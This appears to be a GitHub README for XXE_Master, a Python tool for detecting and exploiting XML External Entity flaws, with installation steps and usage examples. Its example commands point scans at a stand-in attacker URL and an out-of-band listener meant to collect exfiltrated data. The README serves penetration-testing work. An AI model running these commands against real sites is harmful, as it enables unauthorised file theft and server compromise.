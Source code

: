 # XXE_Master

XXE_Master is a powerful tool designed to detect, and exploit a wide range of XML External Entities(XXE), including data exfiltration, file inclusion, SSRF, RCE, and XSS. it supports variety of attack vectors through its rich set of payloads designed  for both direct and blind XXE exploitation.It supports all operating systems (Linux Windows, and MacOS).

## Table of Contents
- [Features](#features)
- [Requirements](#requirements)
- [Installation](#installation)
- [Usage](#usage)
- [Examples](#examples)
- [Logging](#logging)
- [Contributing](#contributing)
- [License](#license)

## Features
- **Detection:** Identify XXE vulnerabilities in web applications with precisions.
- **Exploitation:** Automatically exploit detected vulnerabilities to demonstrate impact.
- **Out-of-Band (OOB) Listener:** Capture exfiltrated data through a built-in OOB listener for blind XXE attacks.
- **cross platform:** Supports Linux, Windows, and macOS.

## Requirements
- Python 3.x
- Required Python packages (installed via `setup.py` or `requirements.txt`)

## Installation

### Installation Steps
1. Clone the repository: 
shell
```
git clone https://github.com/uwimanaMuhiziElie/xxe_master.git
```
2. Navigate to the project directory:
shell
```
cd xxe_master
 ```
3. Install XXE_Master: 
shell
```
python setup.py install
```

## Usage
- For usage instructions, run 
shell
```
python xmaster.py --help
```

## Examples
- **Scan a target for XXE vulnerabilities**:
  - Demonstration: This command will scan the specified target URL for XXE vulnerabilities and use the specified attacker URL for data exfiltration. 
  shell
  ```
  python xmaster.py http://www.targetsite.com --attacker-url http://your-attacker-url.com
  ```

- **Scan with custom delay and OOB listener settings**:
  - Demonstration: This command will scan the target URL with a custom delay of 5 seconds between outputs and will listen on port 8000 for out-of-band data. the tool starts an attacker server in the background to handle out-of-band data exfiltration automatically. The server stops when the scan completes.
  shell
  ```
  python xmaster.py http://www.targetsite.com --attacker-url http://your-attacker-url.com --delay 5
  ```

## Examples 
1.Scan a Target for XXE Vulnerabilities
shell
```
python xmaster.py http://www.exampletest.com --attacker-url http://localhost:8000/exfiltrate
```
2.Scan with Custom Delay
shell
```
python xmaster.py http://www.exampletest.com --attacker-url http://localhost:8000/exfiltrate --delay 5
```

## Logging
The tool logs all detected vulnerabilities and exfiltrated data in the logs/attacker_server.log file. This includes the OOB data captured during blind XXE attacks.

## Troubleshooting
- If you encounter any issues, please [open an issue](https://github.com/uwimanaMuhizieElie/xxe_master/issues) on GitHub.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Author

### Elie Uwimana 😎
- [LinkedIn](www.linkedin.com/in/elie-uwimana)
